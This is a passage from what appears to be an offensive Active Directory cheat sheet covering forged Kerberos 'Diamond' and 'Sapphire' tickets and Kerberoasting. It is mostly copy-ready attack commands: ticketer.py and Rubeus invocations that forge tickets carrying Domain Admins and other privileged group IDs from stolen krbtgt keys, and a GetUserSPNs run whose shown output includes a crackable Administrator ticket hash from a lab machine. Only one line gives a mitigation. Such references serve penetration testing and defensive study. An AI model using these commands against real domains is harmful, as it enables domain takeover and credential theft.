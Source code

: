 
Mitigations:
* Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.


### Pass-the-Ticket Diamond Tickets

> Request a legit low-priv TGT and recalculate only the PAC field providing the krbtgt encryption key

Require: 
* krbtgt NT Hash
* krbtgt AES key

```ps1
ticketer.py -request -domain 'lab.local' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'

Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```


### Pass-the-Ticket Sapphire Tickets

> Requesting the target user's PAC with `S4U2self+U2U` exchange during TGS-REQ(P) (PKINIT).

The goal is to mimic the PAC field as close as possible to a legitimate one.

Require:
* [Impacket PR#1411](https://github.com/SecureAuthCorp/impacket/pull/1411)
* krbtgt AES key

```ps1
# baduser argument will be ignored
ticketer.py -request -impersonate 'domain_adm' -domain 'lab.local' -user 'domain_user' -password 'password' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' 'baduser'
```


## Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (ST) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.


* [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite
  ```powershell
  $ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```
